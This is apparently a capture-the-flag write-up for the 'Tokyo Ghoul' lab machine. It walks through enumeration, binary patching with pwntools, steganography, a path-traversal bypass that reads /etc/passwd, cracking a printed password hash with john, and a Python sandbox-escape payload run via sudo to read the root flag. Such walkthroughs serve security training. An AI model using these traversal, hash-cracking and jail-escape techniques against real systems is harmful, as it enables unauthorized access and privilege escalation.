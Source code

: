# Tokyo Ghoul - Linux - Medium

**IP may vary over document**

## Enumeration

### Nmap: `nmap -sV -oN nmap-initial $IP`

```bash
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

### Gobuster: `gobuster dir -u http://$IP/ -w ../wordlist_common.txt| tee gobuster-scan`

```bash
/.htaccess            (Status: 403) [Size: 278]
/.hta                 (Status: 403) [Size: 278]
/.htpasswd            (Status: 403) [Size: 278]
/css                  (Status: 301) [Size: 312] [--> http://10.10.141.243/css/]
/index.html           (Status: 200) [Size: 1414]                               
/server-status        (Status: 403) [Size: 278]                                
```

### Manual enumeration

Found in jasonroom.html source code:

`<!-- look don't tell jason but we will help you escape , here is some clothes to look like us and a mask to look anonymous and go to the ftp room right there you will find a freind who will help you -->`

Ok let's try ftp with anonymous login. Getting all the files inside ftp we have: `Aogiri_tree.txt  need_to_talk  rize_and_kaneki.jpg`

Running strings on *need_to_talk* we get: `Take a look inside of me. rabin2 -z`

Using `rabin2 -z` we have:

```bash
nth paddr      vaddr      len size section type  string
-------------------------------------------------------
0   0x00002008 0x00002008 9   10   .rodata ascii kamishiro
1   0x00002018 0x00002018 37  38   .rodata ascii Hey Kaneki finnaly you want to talk \n
2   0x00002040 0x00002040 82  83   .rodata ascii Unfortunately before I can give you the kagune you need to give me the paraphrase\n
3   0x00002098 0x00002098 35  36   .rodata ascii Do you have what Im looking for?\n\n
4   0x000020c0 0x000020c0 47  48   .rodata ascii Good job. I believe this is what you came for:\n
5   0x000020f0 0x000020f0 51  52   .rodata ascii Hmm. I dont think this is what I was looking for.\n
6   0x00002128 0x00002128 36  37   .rodata ascii Take a look inside of me. rabin2 -z\n
```

Executing the binary we can't get past the password check.... Hmm let's try patching the binary

Using pwntools module in python

```python
#!/usr/bin/python3

from pwnlib.elf.elf import ELF

elf_object = ELF("need_to_talk")

''' 
# printing all known symbols in binary
for key in elf_object.symbols:
	print(key)
# If I avoid function "check_password" then I might be able to get the flag
print(f"check_password address: {hex(elf_object.symbols['check_password'])}")
'''
elf_object.asm(elf_object.symbols["check_password"], "mov eax, 1\nret")
elf_object.save("new_binary")

print("successfull")
```

Now executing the `new_binary` file we got: `You_found_1t`

*After I was done with the machine and was filling up those answers I came across a question where it asks for the binary passphrase... as I had patched the binary I did not have the passphrase.. Though it was always in sight when it asked to use rabin2 -z*

Binary Passphrase: `kamishiro`

Checking the *rize_and_kaneki.jpg* file with `exiftool` and `stegsolve.jar` revealed nothing. Trying steghide needed password. Giving it the password obtained from the binary. 

```bash
$steghide --info rize_and_kaneki.jpg
"rize_and_kaneki.jpg":
  format: jpeg
  capacity: 2.7 KB
Try to get information about embedded data ? (y/n) y
Enter passphrase: 
  embedded file "yougotme.txt":
    size: 377.0 Byte
    encrypted: rijndael-128, cbc
    compressed: yes
```

Extracting the embedded file: 

```bash
steghide --extract -sf rize_and_kaneki.jpg -xf yougotme.txt
```

We got something like a blip/blop - its morse code. Use [online decoder](https://morsecode.world/international/translator.html) to solve it or do it manually. 

After solving we got something that is hex represented data... lets convert it to ascii using python

```python
str = "5A4446794D324D334D484A3558324E6C626E526C63673D3D"
print(bytes.fromhex(str).decode())
```

We have a string that looks like base64 encoded. Time to decode

```bash
echo <string_here> | base64 -d
```

Now it seems like this is a dir. Let's visit this on the website. It asks to scan the dir itself. Using `gobuster` for scan

```bash
gobuster dir -u http://IP/dir_here/ -w ../wordlist_common.txt| tee rize_scan

/.htaccess            (Status: 403) [Size: 278]
/.hta                 (Status: 403) [Size: 278]
/.htpasswd            (Status: 403) [Size: 278]
/claim                (Status: 301) [Size: 331] [--> http://10.10.114.149/d1r3c70ry_center/claim/
/index.html           (Status: 200) [Size: 312]                                                   
```

Let's check inside */claim* dir... And YES or NO which leads to: `index.php?view=flower.gif` ...Hmm can I view */etc/passwd*? Maybe? Nope just giving */etc/passwd* did not work... but giving */index.html* works.... Hmmm let's check this with burp.

After some fiddling around 

* it seems it is ignoring */* and displaying the rest meaning */index.html* works same as *index.html*

* on giving *../../../../../../../etc/passwd* we get the message: `no no no silly don't do that`

* *.* and */* needs to be encoded

After a lot of fuzzing for path of /etc/passwd it seems the correct one was: `.../../../../../../../../../../../../etc/passwd`. URL-encoding this and sending it back gave the passwd file as intended

```bash
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
lxd:x:106:65534::/var/lib/lxd/:/bin/false
messagebus:x:107:111::/var/run/dbus:/bin/false
uuidd:x:108:112::/run/uuidd:/bin/false
dnsmasq:x:109:65534:dnsmasq,,,:/var/lib/misc:/bin/false
statd:x:110:65534::/var/lib/nfs:/bin/false
sshd:x:111:65534::/var/run/sshd:/usr/sbin/nologin
vagrant:x:1000:1000:vagrant,,,:/home/vagrant:/bin/bash
vboxadd:x:999:1::/var/run/vboxadd:/bin/false
ftp:x:112:118:ftp daemon,,,:/srv/ftp:/bin/false
kamishiro:$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0:1001:1001:,,,:/home/kamishiro:/bin/bash
```

Hmm ... lets try `john` on user *kamishiro*

```bash
$ john --wordlist=../rockyou.txt passwd_file
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
No password hashes left to crack (see FAQ)
```

```bash
$ john --show passwd_file
kamishiro:password123:1001:1001:,,,:/home/kamishiro:/bin/bash
```

Now let's ssh into the box.

---
## User.txt

Just cat the *user.txt* file out once ssh is done on the machine.

---
## Root.txt

Using `sudo -l` reveals

```bash
User kamishiro may run the following commands on vagrant.vm:
    (ALL) /usr/bin/python3 /home/kamishiro/jail.py
```

Checking the *jail.py* file it seems there are some bad strings like *import, read, write* etc. that cannot be used as it is. After doing some google search on escaping sandbox/jailbreaking python scripts I finally figured out the payload.

```python
__builtins__.__dict__['__IMPORT__'.lower()]("OS".lower()).__dict__["System".lower()]("cat /root/root.txt")
```

Just execute `sudo /usr/bin/python3 /home/kamishiro/jail.py` and supply the above payload to get the root flag
